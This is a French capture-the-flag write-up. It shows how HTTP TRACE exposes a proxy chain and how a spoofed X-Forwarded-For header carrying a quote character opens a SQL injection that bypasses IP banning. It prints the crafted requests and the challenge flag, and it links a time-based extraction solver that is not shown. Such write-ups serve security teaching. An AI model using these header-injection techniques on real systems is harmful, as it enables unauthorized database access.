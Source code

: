 # You shall not pass

## Description

Le flag est dans la DB de l'application web, arriverez-vous à l'extraire?

## Solution

On arrive sur une page avec un login standard. Après 3 tentatives en moins de 1 minute, un message nous indique que notre adresse IP a été bannie pour une durée de 1 minute.

L'option TRACE est disponible par défaut sur apache:

### Requête
```
TRACE / HTTP/1.1
Host: whatever


```

### Réponse
```
HTTP/1.1 200 OK
Date: Tue, 30 Jul 2019 19:28:51 GMT
Server: Apache/2.4.10 (Debian)
Content-Type: message/http
Content-Length: 187

TRACE / HTTP/1.1
Host: whatever
X-Forwarded-For: <censored>, 172.25.0.11
X-Forwarded-Host: whatever, whatever
X-Forwarded-Server: 172.25.0.11, 172.25.0.7
Connection: Keep-Alive
```

On s'apperçoit que des proxies se trouve entre nous et l'application web par la présence du header `X-Forwarded-For`. À la place de `<censored>` devrait se trouver votre adresse IP.

On peut ajouter notre propre `X-Forwarded-For` et celui-ci sera accepté par les proxies et envoyé à l'application web:

### Requête
```
TRACE / HTTP/1.1
Host: whatever
X-Forwarded-For: pwned


```

### Réponse
```
HTTP/1.1 200 OK
Date: Tue, 30 Jul 2019 19:29:40 GMT
Server: Apache/2.4.10 (Debian)
Content-Type: message/http
Content-Length: 194

TRACE / HTTP/1.1
Host: whatever
X-Forwarded-For: pwned, <censored>, 172.25.0.11
X-Forwarded-Host: whatever, whatever
X-Forwarded-Server: 172.25.0.11, 172.25.0.7
Connection: Keep-Alive
```

On s'apperçoit que notre input `pwned` a été inséré juste avant notre vrai adresse ip. Nous émettons l'hypothèse que:

- L'application web utilisera l'adresse IP la plus à gauche dans `X-Forwarded-For` pour déterminer l'IP du client (erreur assez fréquente lorsqu'une application est derrière un proxy).

- L'application web utilisera cette adresse IP avec sa base de donnée pour pouvoir déterminer si le client est banni ou non.

Pour tester cette hypothèse, nous envoyons la requête suivante:

### Requête
```
POST / HTTP/1.1
Host: ctf-infosec.com:6008
X-Forwarded-For: '
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

username=&password=
```

La réponse confirme que notre hypothèse est vraie: `SQLite3::query(): Unable to prepare statement...`

Nous avons donc une injection SQL à travers l'en-tête `X-Forwarded-For`. Il n'est toutefois pas possible de contrôler l'output de la base de donnée qui nous est retournée, il faudra donc extraire les données avec du time-based sql injection. Voir le script en annexe pour l'implémentation de la solution.


## Flag 

`FLAG{Proxy_to-[sqli]_Wh4t-tH3_!%&*#?}`

## Annexe

[Solveur](./solver.py)
